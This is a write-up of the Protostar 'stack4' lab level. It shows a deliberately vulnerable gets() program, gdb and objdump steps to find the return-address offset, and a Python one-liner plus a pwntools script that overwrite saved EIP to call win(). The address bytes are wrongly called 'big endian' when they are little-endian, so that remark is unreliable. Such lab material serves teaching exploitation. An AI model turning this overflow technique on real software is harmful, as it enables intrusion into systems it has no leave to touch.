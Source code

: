 # Stack Four

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

**Hints**

- A variety of introductory papers into buffer overflows may help.
- gdb lets you do "run < input"
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Writeup

In this code we have only the buffer and we need to call the **win()** function by overriding the **return address** pointed by **EIP**.

First of all we need to discover the address of the **win()** function and convert it in **big endian**:

```bash
objdump -d /opt/protostar/bin/stack4
```

This is the win() function:

```
080483f4 <win>:
 80483f4:	55                   	push   %ebp
 80483f5:	89 e5                	mov    %esp,%ebp
 80483f7:	83 ec 18             	sub    $0x18,%esp
 80483fa:	c7 04 24 e0 84 04 08 	movl   $0x80484e0,(%esp)
 8048401:	e8 26 ff ff ff       	call   804832c <puts@plt>
 8048406:	c9                   	leave  
 8048407:	c3                   	ret  
```

The address in **big endian** will be:

```
\xf4\x83\x04\x08
```

Now we need to find how much of **words** there are between the **buffer** and the **EIP**. We can find it with **gdb**:

```bash
gdb /opt/protostar/bin/stack4
```

Use the **start** command:

```
start
```

To make first instruction of the binary including calling the first instruction of **main**.

Now the **return address** is written in the stack and we can find it using the register **EBP** and add a single word. (ebp + 1):

```
p $ebp+4
```

With this output:

```
(gdb) p $ebp+4
$1 = (void *) 0xbffffcbc
```

To find the address of the **buffer** we can set a breakpoint in te instruction before calling the **gets**.

To find the address of the code which make the breakpoint we can disassembly the main function, as this:

```
disass main
```

With this output:

```
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   %ebp
0x08048409 <main+1>:	mov    %esp,%ebp
0x0804840b <main+3>:	and    $0xfffffff0,%esp
0x0804840e <main+6>:	sub    $0x50,%esp
0x08048411 <main+9>:	lea    0x10(%esp),%eax
0x08048415 <main+13>:	mov    %eax,(%esp)
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
```

Now set the breakpoint:

```
b *0x08048418
```

And send the **continue** command (alias **c**):

```
c
```

The address of buffer is now stored in **EAX** register, we can find it with the command:

```
info registers
```

With this output:

```
(gdb) info registers
eax            0xbffffc70	-1073742736
ecx            0xf356b2ab	-212421973
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc60	0xbffffc60
ebp            0xbffffcb8	0xbffffcb8
esi            0x0	0
edi            0x0	0
eip            0x8048418	0x8048418 <main+16>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

We are now able to discover the number of word between the **buffer** and the **EIP**:

```
0xbffffcbc - 0xbffffc70 = 4C = 76
```

The buffer size is 64, we can subtract 64:

```
76 - 64 = 12
```

Divide the number by 4 and obtain the number of words:

```
12 / 4 = 3 
```

Need to write 3 word of junk.

The exploit will be:

```bash
python -c "print('a' * 64 + 'bbbb' * 3 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
```

With this output:

```bash
$ python -c "print('a' * 64 + 'bbbb' * 3 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

## Exploit

```python
#!/usr/bin/python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('stack4')

host = args.HOST or 'protostar'
port = int(args.PORT or 22)
user = args.USER or 'user'
password = args.PASSWORD or 'user'
remote_path = '/opt/protostar/bin/stack4'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    if args.GDB:
        return gdb.debug([remote_path] + argv,
                         gdbscript=gdbscript,
                         ssh=shell,
                         *a,
                         **kw)
    else:
        return shell.run([remote_path] + argv, *a, **kw)


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
#gdbscript = '''
#break *0x{exe.symbols.main:x}
#continue
#'''.format(**locals())

io = start()
win_address = exe.symbols.win
payload = cyclic(64) + b'junk' * 3 + p32(win_address)
io.sendline(payload)
log.success(io.recvline())
```